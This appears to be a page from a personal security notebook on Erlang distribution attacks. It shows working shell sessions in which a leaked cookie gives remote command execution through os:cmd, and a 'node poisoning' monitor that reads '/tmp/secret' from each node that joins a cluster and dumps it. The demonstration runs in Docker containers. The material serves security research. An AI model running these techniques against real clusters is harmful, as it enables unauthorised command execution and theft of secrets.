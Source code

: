 # Erlang

## Authentication Cookie

Authentication between Erlang nodes is rather unique to anything I've seen elsewhere, and it all happens through the magic of cookies.  The [documentation ](http://erlang.org/doc/reference_manual/distributed.html)sums this up well:

> Authentication determines which nodes are allowed to communicate with each other. In a network of different Erlang nodes, it is built into the system at the lowest possible level. Each node has its own **magic cookie**, which is an Erlang atom.
>
> When a node tries to connect to another node, the magic cookies are compared. If they do not match, the connected node rejects the connection.

If the authentication cookie is leaked then theoretically we can abuse the nature of Erlang's inter-connectivity to achieve command execution on a node we shouldn't necessarily be able to.  Due to the distributed nature of Erlang also, this represents a fundamental risk.

Of course this only assumes you can leak the cookie.  There are a number of methods, such as in the event of a lower privileged user seeing the `-setcookie` flag in a process list, a weak cookie or a simple brute-force.  The topic of brute-forcing is discussed by Daniel Mende in [Erlang distribution RCE and a cookie bruteforcer](https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/), as well as by Michael Santos in [Spoofing the Erlang Distribution Protocol](http://blog.listincomprehension.com/2010/03/spoofing-erlang-distribution-protocol.html).

If we have access to the cookie and can connect to a node's epmd port \(usually tcp/4369\), we can spawn our own node and achieve command execution in the following manner:

```
otheruser@pc:/$ erl -sname booj -setcookie cookieval -remsh node@localhost
<me booj -setcookie cookieval -remsh node@localhost
Eshell V7.3 (abort with ^G)
(booj@booj)1> net_adm:ping(node@localhost).
net_adm:ping(node@localhost).
pong
(booj@booj)2> spawn(node@localhost, fun() -> io:format("~p~n", [os:cmd('/usr/bin/id')]) end).
spawn(node@localhost, fun() -> io:format("~p~n", [os:cmd('/usr/bin/id')]) end).
"uid=1000(mainuser) gid=1000(mainuser) groups=1000(mainuser)\n"
<6881.23434.8>
```

**References**

[https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/](https://legacy.gitbook.com/book/reboare/booj-security/edit#)  
[http://blog.listincomprehension.com/2010/03/spoofing-erlang-distribution-protocol.html](https://legacy.gitbook.com/book/reboare/booj-security/edit#)

**Further Reading**

[Who wants cookies?](https://blog.voltone.net/post/4)  
[Unauthorized Erlang](https://blog.voltone.net/post/12)

## Node Poisoning

Connecting to an Erlang cluster can potentially be dangerous.  We've mentioned the dangers of arbitrary command execution on adjacent nodes, but this also extends to your workstation upon connecting to a cluster.  In Alex Weber's [Erlang's remsh is dangerous](https://www.broot.ca/erlang-remsh-is-dangerous), we are given a method to compromise an active workstation connecting to a cluster.

If, for example, we were to take control of a single node within a cluster, not only do we have arbitrary command execution over it, but we would also be able to infect any new nodes which join the cluster automatically.

I've tested this out using three docker containers:

**bar@bar**

```bash
root@ubuntu:/home/booj# docker run --rm -it --name bar -h bar --net example erlang:19.3 /bin/bash
root@bar:/# echo thisisbar > /tmp/secret
root@bar:/# erl -sname bar -setcookie example
Erlang/OTP 19 [erts-8.3.5.4] [source] [64-bit] [async-threads:10] [hipe] [kernel-poll:false]

Eshell V8.3.5.4  (abort with ^G)
(bar@bar)1> net_adm:ping(foo@foo).
pong
(bar@bar)2> spawn(fun Grab_keys() ->
(bar@bar)2>   net_kernel:monitor_nodes(true),
(bar@bar)2>   receive
(bar@bar)2>     {nodeup, Node} ->
(bar@bar)2>       Keys = rpc:call(Node, os, cmd, ["cat /tmp/secret"]),
(bar@bar)2>       file:write_file(string:concat("/tmp/", Node), Keys)
(bar@bar)2>   end,
(bar@bar)2>   Grab_keys()
(bar@bar)2> end).
<0.71.0>
```

So we've set up our first node and attached our malicious monitor.

**foo@foo**

```bash
root@ubuntu:/home/booj# docker run --rm -it --name foo -h foo --net example erlang:19.3 /bin/bash
root@foo:/# echo thisisfoo > /tmp/secret
root@foo:/# erl -sname foo -setcookie example
Erlang/OTP 19 [erts-8.3.5.4] [source] [64-bit] [async-threads:10] [hipe] [kernel-poll:false]

Eshell V8.3.5.4  (abort with ^G)
(foo@foo)1> net_adm:ping(bar@bar)
(foo@foo)1> .
pong
```

Now we've connected to our adjacent node and if we attach a terminal to our `bar` docker container, we'll see our dumped secret within tmp.

```bash
root@bar:/tmp# ls -la
total 20
drwxrwxrwt 1 root root 4096 Apr 16 20:18 .
drwxr-xr-x 1 root root 4096 Apr 16 20:14 ..
drwxr-xr-x 2 root root 4096 Apr 10 01:39 .tmp_dir531002228620
-rw-r--r-- 1 root root   10 Apr 16 20:18 foo@foo
-rw-r--r-- 1 root root   10 Apr 16 20:15 secret
root@bar:/tmp# cat foo@foo
thisisfoo
```

Now, any nodes that connect, due to the way Erlang works, will have their secret instantly dumped:

**baz@baz**

```bash
root@ubuntu:/home/booj# docker run --rm -it --name baz -h baz --net example erlang:19.3 /bin/bash
root@baz:/# erl -sname baz -setcookie example
Erlang/OTP 19 [erts-8.3.5.4] [source] [64-bit] [async-threads:10] [hipe] [kernel-poll:false]

Eshell V8.3.5.4  (abort with ^G)
(baz@baz)1> net_adm:ping(foo@foo).
pong
```

```bash
root@bar:/tmp# ls -la
total 24
drwxrwxrwt 1 root root 4096 Apr 16 20:23 .
drwxr-xr-x 1 root root 4096 Apr 16 20:14 ..
drwxr-xr-x 2 root root 4096 Apr 10 01:39 .tmp_dir531002228620
-rw-r--r-- 1 root root   10 Apr 16 20:23 baz@baz
-rw-r--r-- 1 root root   10 Apr 16 20:18 foo@foo
-rw-r--r-- 1 root root   10 Apr 16 20:15 secret
```

Whilst this may not be a particularly surprising result for Erlang developers, it does represent a quite frightening realization that a single node being compromised will indeed compromise the entire network.  This is more making other security researchers aware that if they're attacking an Erlang node, to absolutely do it from a secure VM that has no potential to leak their personal data.  A Docker contianer is ideal.

**References**

[Erlang's remsh is dangerous](https://www.broot.ca/erlang-remsh-is-dangerous)  
[https://stackoverflow.com/questions/45057343/connect-erlang-nodes-on-docker](https://stackoverflow.com/questions/45057343/connect-erlang-nodes-on-docker)

## Cookie Bruteforcing

The code for cookie creation lies in [lib/kernel/src/auth.erl](https://github.com/erlang/otp/blob/master/lib/kernel/src/auth.erl).

**Further Reading**

[NCC Group - Erlang Security 101](https://www.nccgroup.trust/globalassets/our-research/uk/whitepapers/2014/erlang_security_101_v1-0.pdf)  
[https://github.com/msantos/spoofed](https://github.com/msantos/spoofed)  
[https://www.youtube.com/watch?v=42k70Y-yTYY](https://www.youtube.com/watch?v=42k70Y-yTYY)  
[https://conference.hitb.org/hitbsecconf2017ams/materials/D2T4 - Don Bailey - Unauthorized Erlang.pdf](https://conference.hitb.org/hitbsecconf2017ams/materials/D2T4 - Don Bailey - Unauthorized Erlang.pdf)

